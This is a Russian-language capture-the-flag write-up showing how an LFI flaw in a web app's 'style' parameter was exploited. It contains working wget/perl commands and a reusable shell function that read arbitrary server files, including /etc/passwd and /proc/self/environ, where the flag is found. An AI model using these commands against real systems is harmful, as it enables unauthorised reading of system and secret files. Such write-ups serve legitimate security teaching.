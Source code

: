 
# Эксплуатация LFI в параметре `style`

## Суть уязвимости
Эндпоинт `/setcookie` принимает параметр `style` и без фильтрации подставляет его как путь к файлу. Содержимое этого файла сервер вставляет в HTML внутри тега `<style>…</style>`.  
Это приводит к уязвимости **Local File Inclusion (LFI)** и позволяет читать произвольные файлы на сервере.

---

## Ход эксплуатации

### 1. Проверка уязвимости
Отправка запроса с `style=/etc/hosts`:

```bash
tok=$(wget -qS --save-headers -O- --post-data "style=/etc/hosts" http://158.160.39.5:13355/setcookie 2>&1 \
      | sed -n 's/^  [sS]et-[cC]ookie: cookie=\([^;]*\);.*/\1/p' | tail -n 1)

wget -qO- --header "Cookie: cookie=$tok" http://158.160.39.5:13355/ \
  | perl -0777 -ne 'my @m = ($_ =~ m{<style[^>]*>(.*?)</style>}sig); print $m[-1] if @m;'
````

В ответе в `<style>…</style>` появилось содержимое `/etc/hosts`. Уязвимость подтверждена.

---

### 2. Автоматизация чтения файлов

Создана удобная функция `get_style`:

```bash
get_style() {
  path="$1"
  tok=$(wget -qS --save-headers -O- --post-data "style=$path" http://158.160.39.5:13355/setcookie 2>&1 \
        | sed -n 's/^  [sS]et-[cC]ookie: cookie=\([^;]*\);.*/\1/p' | tail -n 1)
  wget -qO- --header "Cookie: cookie=$tok" http://158.160.39.5:13355/ \
    | perl -0777 -ne 'my @m = ($_ =~ m{<style[^>]*>(.*?)</style>}sig); print $m[-1] if @m;'
}
```

Теперь можно читать любой файл так:

```bash
get_style /etc/passwd
```

---

### 3. Получение переменных окружения

Файл `/proc/self/environ` хранит переменные окружения процесса.
Он разделён нулевыми байтами, поэтому они заменяются на переносы строк:

```bash
get_style /proc/self/environ | tr '\0' '\n'
```

Ключевые данные:

```
PWD=/app
HOME=/root
CTF_FLAG=YANDEX_CsS_s0_sTyl1sh_So_s1Mpl3
```

---

### 4. Контекст процесса

Из `/proc/self/cmdline`:

```
python3
app.py
```

---

## Итоги

* **Флаг**: `YANDEX_CsS_s0_sTyl1sh_So_s1Mpl3`
* **Процесс**: `python3 app.py`
* **Рабочая директория**: `/app`
* Уязвимость эксплуатируется напрямую через LFI, без подбора JWT-секрета.

---

### Подсказка

Если прямая подстановка пути не работает, иногда помогает форма:

```
style=file:///etc/hosts
```

